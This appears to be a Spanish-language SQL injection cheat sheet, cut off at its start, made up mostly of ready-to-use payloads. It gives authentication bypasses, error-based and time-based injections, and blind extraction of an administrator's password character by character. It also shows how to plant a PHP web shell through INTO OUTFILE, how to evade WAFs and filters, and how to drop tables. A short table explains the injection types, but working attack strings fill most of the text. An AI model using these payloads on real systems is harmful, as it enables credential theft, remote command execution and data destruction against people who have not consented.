|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`|

```bash
'%3bSELECT pg_sleep(10)-- -

'%3bSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -

'%3bSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--

'%3bSELECT+CASE+WHEN+(length(password)=§1§)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--

'%3bSELECT+CASE+WHEN+(length(SUBSTRING(password,§1§,1)='§c§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--
```

# SQL INJECTION CHEATSHEET

## SUBSTRING

- oracle -> `SUBSTR('foobar', 4, 2)`
- microsoft -> `SUBSTRING('foobar', 4, 2)`
- mysql -> `SUBSTRING('foobar', 4, 2)`
- postgreSQL -> `SUBSTRING('foobar', 4, 2)`

## COMENTARIOS

- oracle -> `--comment`
- microsoft -> `--comment` o `/*comment*/`
- mysql -> `--comment` o `/*comment*/` o `#comment`
- postgreSQL -> `--comment` o `/*comment*/`

## DATABASE VERSION

- oracle -> `SELECT banner FROM v$version` o `SELECT version FROM v$instance`
- microsoft -> `select @@version`
- mysql -> `select @@version`
- postgreSQL -> `select version()`

## DATABASE CONTENTS

- oracle ->  `SELECT * FROM all_tables  
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- microsoft -> `SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- mysql -> `SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- postgreSQL ->  `SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

[Lista de Payloads SQLi](https://github.com/payloadbox/sql-injection-payload-list)

[NetsParker cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## TIPOS DE SQL INJECTION

|Tipo de inyección SQL|Descripción|
|:-----:|:-------:|
|SQLi en banda (SQLi clásico)|In-band SQL Injection es el más común y fácil de explotar de los ataques de SQL Injection. La inyección SQL en banda ocurre cuando un atacante puede usar el mismo canal de comunicación para lanzar el ataque y recopilar resultados. Los dos tipos más comunes de inyección SQL en banda son SQLi basado en errores y SQLi basado en Unión.|
|SQLi basado en errores|SQLi basado en errores es una técnica de inyección SQL en banda que se basa en mensajes de error lanzados por el servidor de la base de datos para obtener información sobre la estructura de la base de datos. En algunos casos, la inyección SQL basada en errores por sí sola es suficiente para que un atacante enumere una base de datos completa.|
|SQLi basado en Unión|SQLi basado en Unión es una técnica de inyección SQL en banda que aprovecha el operador UNION SQL para combinar los resultados de dos o más declaraciones SELECT en un solo resultado que luego se devuelve como parte de la respuesta HTTP.|
|SQLi inferencial (SQLi ciego)|La inyección de SQL inferencial, a diferencia de SQLi en banda, puede llevar más tiempo para que un atacante explote, sin embargo, es tan peligrosa como cualquier otra forma de inyección de SQL. En un ataque SQLi inferencial, en realidad no se transfieren datos a través de la aplicación web y el atacante no podría ver el resultado de un ataque en banda (razón por la cual estos ataques se denominan comúnmente "ataques de inyección SQL ciega"). . En cambio, un atacante puede reconstruir la estructura de la base de datos enviando cargas útiles, observando la respuesta de la aplicación web y el comportamiento resultante del servidor de la base de datos. Los dos tipos de Inyección SQL inferencial son SQLi ciego basado en booleano y SQLi basado en tiempo ciego.|
|SQLi ciego basado en booleano (basado en contenido)|La inyección SQL basada en booleanos es una técnica de inyección SQL inferencial que se basa en enviar una consulta SQL a la base de datos, lo que obliga a la aplicación a devolver un resultado diferente dependiendo de si la consulta devuelve un resultado VERDADERO o FALSO. Según el resultado, el contenido de la respuesta HTTP cambiará o seguirá siendo el mismo. Esto permite que un atacante infiera si la carga útil utilizada devolvió verdadero o falso, aunque no se devuelvan datos de la base de datos.|
|SQLi ciego basado en el tiempo|La inyección SQL basada en el tiempo es una técnica de inyección SQL inferencial que se basa en enviar una consulta SQL a la base de datos, lo que obliga a la base de datos a esperar una cantidad de tiempo específica (en segundos) antes de responder. El tiempo de respuesta le indicará al atacante si el resultado de la consulta es VERDADERO o FALSO. Dependiendo del resultado, se devolverá una respuesta HTTP con un retraso o se devolverá inmediatamente. Esto permite que un atacante infiera si la carga útil utilizada devolvió verdadero o falso, aunque no se devuelvan datos de la base de datos.|
|SQLi fuera de banda|La inyección de SQL fuera de banda no es muy común, principalmente porque depende de las funciones que estén habilitadas en el servidor de base de datos que utiliza la aplicación web. La inyección de SQL fuera de banda se produce cuando un atacante no puede utilizar el mismo canal para lanzar el ataque y recopilar resultados. Las técnicas fuera de banda ofrecen al atacante una alternativa a las técnicas inferenciales basadas en el tiempo, especialmente si las respuestas del servidor no son muy estables (lo que hace que un ataque inferencial basado en el tiempo no sea confiable).|
|Inyección SQL basada en voz|Es un método de ataque de inyección SQL que se puede aplicar en aplicaciones que brindan acceso a bases de datos con comando de voz. Un atacante podría extraer información de la base de datos enviando consultas SQL con sonido.|

### Cargas útiles de inyección de SQL genérico

```sql
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator

@variable	local variable
@@variable	global variable


# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2


1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

Comments:

#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick

```

Basadas en error:

```sql
 OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ
 AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 31337-- 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 31337 
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'

```

Basadas en tiempo:

```
# from wapiti
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/

```

## INJECCION A CIEGAS

La injeccion a ciegas surge cuando una aplicación es vulnerable a la inyección SQL, pero sus respuestas HTTP no contienen los resultados de la consulta SQL relevante o los detalles de los errores de la base de datos. No nos muestra nada y ataques con la clausula `UNION` no son tan efectivas porque se basan en poder ver los resultados de la consulta inyectada dentro de las respuestas de la aplicación.

### Explotación de la inyección SQL ciega activando respuestas condicionales

Considere una aplicación que utiliza cookies de seguimiento para recopilar análisis sobre el uso. Las solicitudes a la aplicación incluyen un encabezado de cookie como este:

```http
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

Cuando `TrackingId` se procesa una solicitud que contiene una cookie, la aplicación determina si se trata de un usuario conocido mediante una consulta SQL como esta:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Esta consulta es vulnerable a la inyección de SQL, pero los resultados de la consulta no se devuelven al usuario. Sin embargo, la aplicación se comporta de manera diferente dependiendo de si la consulta devuelve datos. Si devuelve datos (porque `TrackingId` se envió un mensaje reconocido ), se muestra un mensaje de "Bienvenido de nuevo" dentro de la página.

Este comportamiento es suficiente para poder explotar la vulnerabilidad de inyección SQL ciega y recuperar información activando diferentes respuestas de forma condicional, dependiendo de una condición inyectada. Para ver cómo funciona esto, suponga que se envían dos solicitudes que contienen los siguientes `TrackingId` valores de cookies a su vez:

```http
…xyz' AND '1'='1  
…xyz' AND '1'='2
```

Estas injecciones son basadas en condiciones booleanas, el primero de estos valores hará que la consulta devuelva resultados, porque la `AND '1'='1` condición inyectada es verdadera, por lo que se mostrará el mensaje "Bienvenido de nuevo". Mientras que el segundo valor hará que la consulta no devuelva ningún resultado, porque la condición inyectada es falsa.

Podemos descubrir conrtaseñas de usuario on injecciones a ciegas.

Por ejemplo, suponga que hay una tabla llamada `Users` con las columnas `Username` y `Password`, y un usuario llamado `Administrator`. Podemos determinar sistemáticamente la contraseña para este usuario enviando una serie de entradas para probar la contraseña un carácter a la vez.

Para hacer esto, comenzamos con la siguiente entrada:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Esto devuelve el mensaje "Bienvenido de nuevo", que indica que la condición inyectada es verdadera, por lo que el primer carácter de la contraseña es mayor que `m`.

A continuación, enviamos la siguiente entrada:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

Esto no devuelve el mensaje "Bienvenido de nuevo", lo que indica que la condición inyectada es falsa, por lo que el primer carácter de la contraseña no es mayor que `t`.

Finalmente, enviamos la siguiente entrada, que devuelve el mensaje "Bienvenido de nuevo", confirmando así que el primer carácter de la contraseña es `s`:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Podemos continuar este proceso para determinar sistemáticamente la contraseña completa para el `Administrator` usuario.

## Obteniendo el usuario y contraseña de acceso.

Antes de complicarse, preferible probar inyecciones básicas sobre paneles de autenticación, esto es:

```sql
Usuario: admin' or 1=1-- -
Password: admin' or 1=1-- -
```

## Ejecutar comandos sobre el sistema
En caso de querer ejecutar comandos sobre el sistema, podemos aprovechar que desde consultas **sql** se pueden exportar archivos para generar el nuestro malicioso. Para ello, aplicaríamos la siguiente sintaxis a modo de ejemplo:

```sql
#WINDOWS
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

#LINUX
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

### CHEATSHEET BLIND SQL INJECTION
|DBMS|CONDITIONAL ERROR|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

|DBMS|CONDITIONAL TIME DELAYS|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`|

## Filtros para bypassear WAF

[filtros](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

## EVADIR FILTROS

```sql
select ename,sal from emp where ename=’marcus’

# traducido a

SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)

```

si los comentarios estan bloqueados:

```sql
‘ or 1=1--

# traducir a 

‘ or ‘a’=’a
```

si la palabra select esta bloqueada o eliminada:

```sql
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

se puede usar comentarios entre la consulta:

```sql
SELECT/*foo*/username,password/*foo*/FROM/*foo*/users

SEL/*foo*/ECT username,password FR/*foo*/OM users
```

se puede eliminar tablas:

```
‘ drop table users--
‘ drop table accounts--
‘ drop table customers--
```

**SQL Syntax**













